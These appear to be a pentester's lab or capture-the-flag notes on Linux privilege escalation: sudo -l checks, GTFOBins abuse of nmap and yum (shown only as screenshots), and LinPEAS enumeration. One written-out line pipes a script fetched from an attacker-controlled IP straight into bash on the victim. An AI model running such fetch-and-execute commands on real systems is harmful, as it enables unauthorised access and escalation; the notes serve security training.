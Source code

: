 **PRIV ESC**

Lets find some GTFO BINS
```
sudo -l
```

**NMAP**
![[Pasted image 20240711220524.png]]
![[Pasted image 20240711220550.png]]
![[Pasted image 20240711220643.png]]

**YUM**
Copy and paste entire payload into shell
![[Pasted image 20240711220827.png]]
![[Pasted image 20240711220857.png]]





**LINPEAS**

Serve Linpeas to the victim and pass to bash interpreter
![[Pasted image 20240711221537.png]]
![[Pasted image 20240711221743.png]]

```
curl http://10.10.16.2/linpeas.sh | bash
```
![[Pasted image 20240711222317.png]]


Outdated Kernel
![[Pasted image 20240711222544.png]]
Avoid Kernel exploits unless desperate - They can be very unstable

We find our shell in process list
![[Pasted image 20240711222733.png]]


**SUDO -L**
![[Pasted image 20240711223204.png]]
Produced no results although when run manually (above), we get permission misconfigurations leading to PRIV ESC!

***
***
